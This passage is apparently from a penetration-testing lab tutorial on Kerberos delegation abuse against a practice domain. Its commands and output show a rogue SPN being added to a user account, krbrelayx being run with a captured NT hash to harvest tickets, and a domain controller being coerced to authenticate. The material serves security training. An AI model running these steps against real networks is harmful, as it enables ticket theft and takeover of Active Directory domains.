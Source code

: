 #### Verifying DNS Record
```shell-session
slomkm@htb[/htb]$ nslookup roguecomputer.inlanefreight.local dc01.inlanefreight.local

Server:     dc01.inlanefreight.local
Address:    10.129.1.207#53

Name:   roguecomputer.inlanefreight.local
Address: 10.10.14.2
```

Then we add a crafted SPN to our target account using `addspn.py`. The SPN must be `CIFS/dns_entry`, so in our case, we use the option `-s` followed by `CIFS/roguecomputer.inlanefreight.local`. `CIFS` stands for Common Internet File System, equivalent to SMB. The option `--target-type samname` specifies that the target is a username, if unspecified, `krbrelayx` will assume it's a hostname.

#### Craft SPN on the Target User (sqldev)
```shell-session
slomkm@htb[/htb]$ python addspn.py -u inlanefreight.local\\pixis -p p4ssw0rd --target-type samname -t sqldev -s CIFS/roguecomputer.inlanefreight.local dc01.inlanefreight.local 

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```

Any account trying to authenticate via SMB to `roguecomputer.inlanefreight.local` will have a copy of its TGT in its requested TGS ticket. We can use the PrinterBug tool to coerce `DC01$` into authenticating against our fake host. But before that, we need to look for the TGS ticket and TGT on our attacking host using `krbrelayx.py`. We provide this tool with the compromised account's secret key (NT hash) to decrypt the received TGS ticket. In this case the compromised account and target is `sqldev`, so we need to provide its hash (`cf3a5525ee9414229e66279623ed5c58`) in order to decrypt the received TGS ticket.

#### Using Krbrelayx
```shell-session
slomkm@htb[/htb]$ sudo python krbrelayx.py -hashes :cf3a5525ee9414229e66279623ed5c58

[*] Protocol Client SMB loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Running in export mode (all tickets will be saved to disk)
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
```

If we receive an error while trying to execute `krbrelayx.py`, we need to remove or update the impacket installation. The following steps are to remove impacket and reinstall it from the source:

#### Removing and Installing Impacket from source
```shell-session
slomkm@htb[/htb]$ sudo apt remove python3-impacket
slomkm@htb[/htb]$ sudo apt remove impacket-scripts
slomkm@htb[/htb]$ git clone -q https://github.com/fortra/impacket;cd impacket
slomkm@htb[/htb]$ sudo python3 -m pip install .
...SNIP...
```
